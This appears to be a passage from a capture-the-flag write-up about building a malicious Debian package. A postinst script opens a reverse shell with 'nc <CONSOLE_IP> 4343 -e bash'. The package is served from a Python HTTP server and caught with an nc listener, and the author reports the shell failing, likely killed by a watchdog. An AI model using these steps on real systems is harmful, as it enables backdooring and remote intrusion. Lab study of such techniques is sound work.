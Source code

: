 ```bash

# this is the main attack script
# instructions to run post installation
# copy and paste from nc_deb/DEBIAN/postinst, change IP to console IP
# initial version had a reverse shell 
#   nc <CONSOLE_IP> 4343 -e bash &
vim postinst
chmod 555 postinst

# make the package
dpkg-deb --build ../

# make the http server file system
mkdir -p pub/jfrost/backdoor

# move the deb to the proper location
mv ...deb pub/jfrost/backdoor/suriv_amd64.deb

# serve and wait - move to a new window for other commands
python3 http.server 80
```
### Malicious Deb Testing
This was tested using an ubuntu docker image. Run the attacker nc listener `nc -nlvp 4343` on the localhost and install the malicious package on the image. The `postinst` script will need to be updated to reflect the IPs of the local system. Tested and verified.
### Results
Reverse shell failure. For whatever reason the reverse shell reaches back and creates the connection to the listener but it does not get an interactive sessions. After some proponderance of the evidence, likely the process is killed by a watchdog monitoring the dpkg installation process. I also tried a bind shell which too did not work, likely because of the same reason.